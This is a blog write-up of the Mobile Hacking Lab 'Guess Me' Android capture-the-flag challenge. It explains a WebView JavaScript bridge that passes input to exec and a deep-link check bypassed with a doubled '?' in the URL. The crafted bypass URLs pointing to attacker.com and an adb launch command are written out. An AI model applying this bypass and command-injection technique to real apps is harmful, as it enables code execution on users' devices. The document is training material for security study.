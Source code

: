 ```yaml
---
title:  "Mobile Hacking Lab Guess Me Writeup"
date:   2024-01-22T16:40:00-0400
categories:
  - writeup
tags:
  - android
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for Guess Me challenge from Mobile Hacking Lab. 

## Static Analysis
When the application is opened, the user is greeted with a guessing game. When the randomly determined number is known correctly, no action is taken other than writing a congratulatory message on the screen.

Let's analyse code with jadx.
![](/assets/images_mhl_guessme/2.png)

We have onl-y 2 activities.

![](/assets/images_mhl_guessme/3.png)

During the MainActivity code analysis, it is seen that if the info button on the home page is pressed, it sends an intent for another activity (WebviewActivity), unlike other buttons.

## WebviewActivity Analysis

![](/assets/images_mhl_guessme/4.png)

For the webview created in the WebviewActivity activity, javascript code execution is first activated and then the MyJavaScriptInterface class is added to the webview object as a javascript interface with the name "AndroidBridge". This means that methods in the MyJavaScriptInterface class with @JavascriptInterface notation can be called from within the webview.
After the settings of the Webview object are made, the loadAssetIndex and handleDeepLink methods are called.

![](/assets/images_mhl_guessme/5.png)

In the loadAssetIndex method, the index.html file in the assets folder is loaded to be displayed in the webview.

![](/assets/images_mhl_guessme/6.png)

When the index.html file is examined, as mentioned, the current time is printed on the screen by calling the getTime function via the interface called AndroidBridge.

![](/assets/images_mhl_guessme/7.png)

In the handleDeepLink method, the data sent with the intent is processed and displayed in the webpage webview. It can be seen from the manifest file in the first screenshot that the WebviewActivity activity can be triggered with intent.
The URL obtained with the incoming intent is sent to the isValidDeepLink method to be checked. According to these controls,

- Url scheme: must be mhl or https.
- Url host: mobilehackinglab
- The parameter named “url” to be sent within the URL must end with the text “mobilehackinglab.com”.

After these checks, if it is a valid connection, the function returns the data in the "url" parameter. Then, by calling the loadDeepLink method with the URL received with the intent, the relevant web page is opened in the webview.

## Finding Vulnerability and Exploitation

If the methods in the AndroidBridge interface, which can be called from within the Webview, are examined closely, a problem is noticed.

![](/assets/images_mhl_guessme/8.png)

The argument sent to the getTime function, that is, the "Time" variable, is given as an argument to the exec function without any checking and the code is executed. Here, with any command sent to the getTime function, code execution can be performed on the target device with the permissions of the application. In order to do this, we need to upload our own malicious html file to the application. In order for our own file to be uploaded, the url in the intent we will send must be able to bypass the checks in the application.

```
https://mobilehackinglab?url=attacker.com
```

If a link address like this is sent with intent, the check will not be bypassed because the value in the url parameter does not end with “mobilehackinglab.com”.

```
-	https://mobilehackinglab?url=attacker.com#mobilehackinglab.com
-	https://mobilehackinglab?url=attacker.com&test=mobilehackinglab.com
-	…

```

In case of trying to bypass the control in the above ways, the control cannot be bypassed because the "url" parameter will be taken as attacker.com while parsing the url. It would be useful to analyze the source code of the "getQueryParameter" function used when getting the URL parameter.

[![](/assets/images_mhl_guessme/9.png)](https://en.wikipedia.org/wiki/Uniform_Resource_Identifier#Syntax)


[![](/assets/images_mhl_guessme/10.png)](https://cs.android.com/android/platform/superproject/main/+/main:frameworks/base/core/java/android/net/Uri.java;l=1724;bpv=0;bpt=1)

In this function, the parameters are separated into their parts with the "&" sign, and then the relevant values are obtained by separating them with the "=" sign. Before the fragmentation process, the query part of the given link address is retrieved with the getEncodedQuery method.

![](/assets/images_mhl_guessme/11.png)

According to the information given in the source code. It returns the part between the "?" and "#" signs. This situation can also be seen when the details of the code are examined.

![](/assets/images_mhl_guessme/12.png)

As seen here, the url “?” It is divided starting from the question mark and the remaining part after the question mark is returned as the query part.

To bypass the check, a link address like this can be used:

```
https://mobilehackinglab?url=attacker.com?hack=mobilehackinglab.com
```

Although it is an incorrect URI in terms of Uri syntax, it successfully bypasses the checks and allows attacker.com to be loaded into the webview. Here is the situation that causes the checks to be skipped:
- While the Uri is divided into parts, the query part will be taken from the first question mark and will be returned as "url=attacker.com?hack=mobilehackinglab.com".
- Then, when dividing the query text into parameters, the url parameter will be accepted as “attacker.com?hack=mobilehackinglab.com” since there is no “&” sign in the query.
- Since the resulting query parameter contains the text "mobilehackinglab.com" at the end, the check will be bypassed.
- Finally, the loadDeepLink function tries to load the "attacker.com?hack=mobilehackinglab.com" value in the "url" parameter and attacker.com is loaded.

Python http server code created for the attack:

![](/assets/images_mhl_guessme/13.png)

HTML page that allows us to send commands to the GetTime function:

![](/assets/images_mhl_guessme/14.png)

The adb command used to test the attack:

```
adb shell am start -n com.mobilehackinglab.guessme/.WebviewActivity -d https://mobilehackinglab?url=10.0.3.2?hack=mobilehackinglab.com
```

Result:

![](/assets/images_mhl_guessme/15.png)


Thanks for reading! See you in next writeups 👋🏻👋🏻
